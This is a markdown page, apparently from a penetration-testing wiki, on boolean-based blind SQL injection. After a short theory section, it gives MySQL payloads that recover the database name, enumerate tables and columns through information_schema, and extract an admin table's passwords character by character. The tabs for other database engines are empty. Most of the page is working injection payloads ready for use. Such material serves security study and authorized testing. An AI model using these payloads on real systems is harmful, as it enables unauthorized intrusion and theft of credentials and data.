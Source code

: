 # Boolean Based - Blind SQL Injection

## Theory
Boolean-based SQL injection is a technique that relies on sending an SQL query to the database based on which the technique forces the application to return different results.  
The result allows an attacker to judge whether the payload used returns true or false. Even though no data from the database are recovered, the results give the attacker valuable information.
Depending on the boolean result (TRUE or FALSE), the content within the response will change, or remain the same.

## Practice

### Getting database
{% tabs %}
{% tab title="MySQL" %}
First, retrieve the database length:
```sql
1' AND (SELECT LENGTH(database()))=1-- -  #False  
1' AND (SELECT LENGTH(database()))=2-- -  #False
1' AND (SELECT LENGTH(database()))=3-- -  #True -> length of database is 3 characters.
```

Second, retrieve the database name:
```sql
--True -> It means the first character is p.
1' AND (SELECT HEX(SUBSTRING(database(), 1, 1)))=HEX('p')-- -
1' AND (SELECT ASCII(SUBSTRING(database(), 1, 1)))=112-- -  #ASCII code is in decimal

--True -> It means the second character is w.
1' AND (SELECT HEX(SUBSTRING(database(), 2, 1)))=HEX('w')-- -

--True -> It means the third character is n.
1' AND (SELECT HEX(SUBSTRING(database(), 3, 1)))=HEX('n')-- -
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

### Getting Tables
{% tabs %}
{% tab title="MySQL" %}
First, retrieve the number of tables:
```sql
1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=2-- -  #True -> 2 tables
```

Second, retrieve length of each table
```sql
-- If True, the first table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=5-- - 

-- If True, the second table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)=5-- - 
```

Third, retrieve name of each table
```sql
-- If True, the first char of the first table is u
1'AND (SELECT HEX(SUBSTRING(table_name, 1, 1))FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=HEX('u')-- -

-- If True, the second char of the first table is s
1'AND (SELECT HEX(SUBSTRING(table_name, 2, 1)) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=HEX('s')-- -

-- If True, the first char of the second table is p
1'AND (SELECT HEX(SUBSTRING(table_name, 1, 1)) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)=HEX('p')-- -
```

{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

### Getting Columns
{% tabs %}
{% tab title="MySQL" %}
First, retrieve the number of columns:
```sql
1' AND (SELECT COUNT(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='admin')=2-- -  #True -> 2 columns
```

Second, retrieve length of each column
```sql
-- If True, the first column's name lenght is 3
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 0,1)=3-- - 

-- If True, the second table's name lenght is 8
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 1,1)=8-- - 
```

Third, retrieve name of each column
```sql
-- If True, the first char of the first column is a
1'AND (SELECT HEX(SUBSTRING(column_name, 1, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 0,1)=HEX('a')-- -

-- If True, the second char of the first column is b
1'AND (SELECT HEX(SUBSTRING(column_name, 2, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 0,1)=HEX('b')-- -

-- If True, the first char of the second column is p
1'AND (SELECT HEX(SUBSTRING(column_name, 1, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 1,1)=HEX('p')-- -
```

{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

### Dump values
{% tabs %}
{% tab title="MySQL" %}

First, retrieve the lenght of the value (we take password column as example):
```sql
1' AND (SELECT LENGTH(password) FROM admin LIMIT 0,1)=9-- -  #True -> 1st password is 9 char
```

Second, retrieve values
```sql
-- If True, the first password's char is p
1'AND (SELECT HEX(SUBSTRING(password, 1, 1))FROM admin LIMIT 0,1)=HEX('p')-- -

-- If True, the second password's char is a
1'AND (SELECT HEX(SUBSTRING(password, 2, 1))FROM admin LIMIT 0,1)=HEX('a')-- -
```

{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}
{% embed url="https://defendtheweb.net/article/blind-sql-injection" %}